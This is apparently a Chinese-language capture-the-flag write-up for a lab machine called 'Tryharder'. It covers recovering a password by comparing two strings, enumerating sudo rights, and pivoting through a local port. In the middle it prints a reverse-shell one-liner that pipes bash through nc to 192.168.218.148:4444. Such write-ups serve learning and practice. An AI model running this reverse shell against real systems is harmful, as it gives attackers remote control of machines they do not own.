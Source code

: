 问了一手gpt：
•	方法 1：第一段 = 第二段 + 固定位移（如凯撒 +5）。
•	方法 2：第一段 = 第二段 + 符号替换（如 ! → "） + 字母替换（如 a → u）。
•	方法 3：第一段是第二段的 异或（XOR） 或 Base64 编码后的变形。

最有可能的就是异或


```bash
#!/bin/bash
s1='原始字符串'
s2='密文字符串'
for ((i=0; i<${#s1}; i++)); do
  [[ "${s1:i:1}" = "${s2:i:1}" ]] && printf "0" || printf "1"
done
echo
```
```bash
www-data@Tryharder:/tmp$ ./123
0101100100110000010101010101111100110101010011010011010001010011010010000011001101000100010111110011000100110111010111110011100001010101010001000100010001011001
www-data@Tryharder:/tmp$
```


最终解出密码为：`Y0U_5M4SH3D_17_8UDDY`

SSH 登录 pentester 用户后：

```bash
sudo -l
# (ALL : ALL) NOPASSWD: /usr/bin/find
```
以为可以秒杀了试了很多就不能提权，扒拉一会，突然想到有个后门py，但是是xiix用户的，想着sudo find，结果也是报错。其实早在www用户我就发现了本地端口8989，感觉有用，想做端口转发来着，但是被密码给转义注意了，后面没思路都忘记了这个端口的事情。后面没思路了各种扒拉，还以为是find命令错了，最后还是看了wp才知道还有路子，这也是提醒我以后要更加细心了。
使用nc连接本地8989端口，只知道pentester用户的密码就试了一下，进去了
拿反向shell：

```bash
shell> rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc 192.168.218.148 4444 >/tmp/f
```

在 xiix 目录中发现 `guess_game`：

```bash
xiix@Tryharder:~$ ./guess_game
./guess_game
===== 终极运气挑战 / Ultimate Luck Challenge ====
规则很简单： 我心里有个数字（0-99），你有一次机会猜。
I have a number (0-99), you get one guess.
猜对了，我就把属于你的东西给你；猜错了？嘿嘿，后果自负！
Guess right, I’ll give your reward; wrong? Hehe, face the consequences!
提示： 聪明人也许能找到捷径。
Hint: Smart ones might find a shortcut.
输入你的猜测（0-99） / Your guess (0-99): 80
80
哈哈，猜错了！ / Wrong guess!
秘密数字是 7。 / Secret number: 7
正在格式化你的硬盘...（开玩笑的啦！） / Formatting disk... (Kidding!)
是个游戏，直接爆破
```
